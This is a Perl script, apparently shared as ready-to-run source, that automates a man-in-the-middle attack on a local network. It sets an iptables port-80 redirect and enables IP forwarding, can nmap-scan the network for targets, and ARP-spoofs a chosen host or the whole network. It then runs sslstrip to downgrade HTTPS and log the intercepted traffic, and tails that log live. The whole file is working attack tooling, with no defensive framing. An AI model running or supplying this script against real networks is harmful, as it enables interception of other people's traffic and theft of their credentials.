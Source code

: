 #! /usr/bin/perl -w 

#########################################################################
# Script Created By:
# Dabojo
# MAMAN
# Man In The Middle Attack network
# IPtables + Arpspoof + SSLStrip
#
# http://tasikcyber.or.id
#########################################################################

use strict;
use warnings;

# open /etc/etter.conf and uncomment
# iptables redirect on/off
# ctrl+o to save changes
# ctrl+x to exit nano and continue with script

my $tables;
print "########################################\n";
print "You will have to uncomment iptables redirect.\n";
print "Inside nano use ctrl+o to save your changes & ctrl+x to exit and continue the script.\n";
print "Would you like to open /etc/etter.conf to uncomment iptables redirect? (y/n)\n";
$tables=<STDIN>;
chomp($tables);
    if ($tables eq "y"){
        print "press ctrl+x to exit nano";
        system ("sudo nano /etc/etter.conf");
    }

# change iptables to allow redirection from port 80 to port 8080
my $redirect;
print "########################################\n";
print "Changing iptables to redirect traffic from port 80 to port 8080\n";
$redirect=`sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`;

# check to make sure ip forwarding is enabled
my $forward;
print "########################################\n";
print "Checking to make sure ip forwarding is enabled\n";
system ("cat /proc/sys/net/ipv4/ip_forward");
print "Does ip forward = 0? (y/n)\n";
$forward=<STDIN>;
chomp($forward);
    if ($forward eq "y"){
        system ("sudo nano /proc/sys/net/ipv4/ip_forward");
        system ("cat /proc/sys/net/ipv4/ip_forward");
}

# check to find out what the default gateway is
my $default;
print "########################################\n";
system ("netstat -nr");
    print "What is the default gateway?\n";
    $default=<STDIN>;
    chomp($default);

# check which network interface device
my $interface;
print "########################################\n";
system ("ifconfig");
    print "Which network interface would you like to use?\n";
    $interface=<STDIN>;
    chomp($interface);

# check what your ip address is
my $ip;
print "########################################\n";
system ("ifconfig $interface");
    print "What is your IP address?\n";
    $ip=<STDIN>;
    chomp($ip);

# option to run nmap scan for a target
my $nmap;
my $netip;
print "########################################\n";
print "Would you like to run an nmap scan of the network to find a target? (y/n)\n";
    $nmap=<STDIN>;
    chomp($nmap);
    if ($nmap eq "y"){
        print "Enter the IP to scan then entire network (ex: 192.168.1.*)\n";
            $netip=<STDIN>;
            chomp($netip);
            system ("nmap -v -PN $netip");
}

# start arpspoof; option to spoof a target or spoof the entire network
my $arp;
my $target;
print "########################################\n";
print "Do you want to spoof a specific target? (y/n)\n";
    $arp=<STDIN>;
    chomp($arp);
        if ($arp eq "y"){
            print "Enter the IP of the Target: \n";
            $target=<STDIN>;
            chomp($target);
                system ("xterm -e sudo arpspoof -i $interface -t $target $default &");
        }
        else {
            system ("xterm -e sudo arpspoof -i $interface $default &");
        } 

# start ssl strip
my $ssl;
my $log;
print "########################################\n";
print "Starting SSL Strip.\n";
print "We have a few options for our parameters with SSL Strip.\n";
print "Here are you options: \nsniff all traffic, kill active sessions, log data (akl) \nkill, log, and sniff only https traffic (kl) \nlog https traffic only(l)\n";
    $ssl=<STDIN>;
    chomp($ssl);
print "Enter name of the log file, it has to end with '.log'? (ex: strip.log )\n";
    $log=<STDIN>;
    chomp($log);
        if ($ssl eq "akl"){
            system ("xterm -e sudo sslstrip -a -k -l 8080 -w $log &");
        }
        if ($ssl eq "kl"){
            system ("xterm -e sudo sslstrip -k -l 8080 -w $log &");
        }
        elsif ($ssl eq "l"){
            system ("xterm -e sudo sslstrip -l 8080 -w $log &");
        }

# start following the sslstrip log using tail
my $tail;
print "########################################\n";
print "Do you want to start to follow the log file in real time? (y/n)\n";
    $tail=<STDIN>;
    chomp($tail);    
    if ($tail eq "y"){
        print "Starting to tail the sslstrip log file.\n";
        system ("xterm -e sudo tail -f $log &");
    }
    else {
        print "Script done. Time to wait.\n";
    }
